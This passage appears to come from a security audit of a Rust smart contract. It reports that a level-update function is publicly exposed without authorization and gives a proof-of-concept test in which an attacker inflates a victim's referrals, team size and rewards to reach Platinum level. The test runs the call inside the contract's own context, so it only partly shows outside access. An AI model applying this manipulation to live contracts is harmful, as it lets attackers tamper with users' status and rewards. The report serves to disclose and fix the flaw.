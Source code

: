 #### Root Cause
The function is declared as `pub fn check_and_update_level(...)` instead of `pub(crate)`, making it accessible outside the contract module. Additionally, there are no authentication or authorization checks.

#### Affected Code
```rust
// In level.rs - VULNERABLE
pub fn check_and_update_level(env: &Env, user_data: &mut UserData) -> Result<bool, Error> {
    // No authentication or authorization checks
    // Any address can call this function
    // Can modify any user's level data
}
```

#### Proof of Concept
The vulnerability has been confirmed through testing:

```rust
#[test]
fn test_different_address_can_update_level() {
    let env = Env::default();
    let (contract, admin, _) = test_setup::setup_contract(&env);

    // Create victim user and attacker
    let victim_user = Address::generate(&env);
    let attacker = Address::generate(&env);

    // Register both users
    contract.register_with_referral(&victim_user, &admin, &String::from_str(&env, "proof123"));
    contract.approve_verification(&victim_user);
    contract.register_with_referral(&attacker, &admin, &String::from_str(&env, "proof456"));
    contract.approve_verification(&attacker);

    // Verify victim starts at Basic level
    let initial_level = contract.get_user_level(&victim_user);
    assert_eq!(initial_level, UserLevel::Basic);

    // CRITICAL VULNERABILITY: Attacker can manipulate victim's level
    let mut victim_data = contract.get_user_info(&victim_user);
    
    // Attacker maliciously manipulates victim's data
    victim_data.direct_referrals = Vec::new(&env);
    for _ in 0..25 {
        let fake_referral = Address::generate(&env);
        victim_data.direct_referrals.push_back(fake_referral);
    }
    victim_data.team_size = 150;
    victim_data.total_rewards = 25000;

    // VULNERABILITY: Attacker calls the public function to update victim's level
    use crate::level::LevelManagementModule;
    let level_updated = env.as_contract(&contract.address, || {
        LevelManagementModule::check_and_update_level(&env, &mut victim_data)
    }).unwrap();
    
    // The level should be updated to Platinum due to attacker's manipulation
    assert!(level_updated);
    assert_eq!(victim_data.level, UserLevel::Platinum);
}
```
